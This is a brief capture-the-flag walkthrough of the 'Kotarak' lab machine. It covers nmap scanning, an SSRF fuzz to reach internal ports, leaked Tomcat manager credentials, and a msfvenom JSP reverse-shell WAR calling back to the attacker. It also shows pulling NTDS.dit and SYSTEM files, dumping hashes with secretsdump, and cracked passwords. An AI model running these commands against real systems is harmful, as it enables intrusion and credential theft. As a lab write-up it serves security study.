






# kotarak

## scanning
```bash
furious 10.10.10.55
nmap -sC -sV -p 22,8009,8080,60000 -n -Pn 10.10.10.55 -oN targeted
```


## 60000

wfuzz -c -z range, 1-655535 --hl 2 '10.10.10.55:60000/url.php?path=127.0.0.1:FUZZ'


view-source:http://10.10.10.55:60000/url.php?path=127.0.0.1:888?doc=backup

```html
<user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```

# 8080 
we enter here and use the credentials
http://10.10.10.55:8080/manager/html

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.14 lport=8888 -f war > gato.war
```
we enter here to get a reverse shell
http://10.10.10.55:8080/gato/

```bash
cd /home/tomcat/to_archive/pentest_data
unzip ntdsxtract.zip
python3 -m http.server 1234
```


on our machine
```bash
wget http://10.10.10.55:1234/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
wget http://10.10.10.55:1234/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin

impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```


we use crackstation

```
f16tomcat!
Password123!
```
su atanas
password: f16tomcat!
